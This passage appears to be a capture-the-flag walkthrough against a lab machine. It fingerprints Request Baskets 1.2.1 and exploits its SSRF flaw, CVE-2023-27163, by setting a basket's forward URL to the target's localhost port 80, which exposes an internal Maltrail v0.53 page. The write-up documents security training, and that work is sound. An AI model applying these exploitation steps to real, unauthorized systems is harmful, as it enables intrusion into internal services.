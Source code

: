 When visiting the website we get redirected to:

```shell
http://10.129.138.176:55555/web
```

We will do what we almost always do first, look at the bottom of the website:

```shell
Powered by request-baskets | Version: 1.2.1
```

Now we know that the page is running Request Baskets version 1.2.1

# Foothold
### CVE-2023-27163 Request Baskets 1.2.1  to expose Target Local Port 80

Searching on google we found that the version 1.2.1 of Request Baskets is vulnerable to CVE-2023-27163.

We can abuse this to enumerate the filtered port 80 from the target machine.

To do that, we can follow these steps:

```shell
# Click on Create, the value there doesnt matter 
http://10.129.138.176:55555/web

# Then click on
Open Basket

# Go to
Settings (Click on Gear icon at the top)

# Enter the following
Forward URL:
http://127.0.0.1:80

Activate check -> Proxy Response
Activate check -> Expand Forward Path

# Then click on
Apply

# Now visit the URL unter "Empty basket!"
http://10.129.138.176:55555/2ungbj8

# The page which is running locally at port 80 of the target, which we couldnt access externally, will open
```

If we scroll down on the exposed website, we will find the following:

```shell
Powered by Maltrail (v0.53)
```
